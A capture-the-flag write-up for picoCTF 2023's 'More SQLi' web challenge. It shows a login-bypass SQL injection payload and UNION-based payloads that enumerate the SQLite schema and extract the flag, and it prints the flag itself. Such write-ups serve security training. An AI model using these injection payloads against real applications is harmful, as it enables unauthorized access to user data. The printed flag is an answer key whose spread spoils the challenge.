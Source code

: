 # More SQLi

```markdown
Tags: `picoCTF2023` `Web Exploitation` `sql`
```

## **Description**

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

<figure><img src="../.gitbook/assets/image (46) (1).png" alt=""><figcaption></figcaption></figure>

```sql
Username: eiei
password: 'or '1' IS '1';--
```

```sql
SELECT id FROM users WHERE password = '1' IS '1'--' AND username = 'eiei'
```

## Welcome!

<figure><img src="../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT 7, sqlite_version(), 3--
```

<figure><img src="../.gitbook/assets/image (48) (1).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT name, sql, sqlite_version() from sqlite_master;--
```

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT flag, null, null from more_table;--
```

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption><p>picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
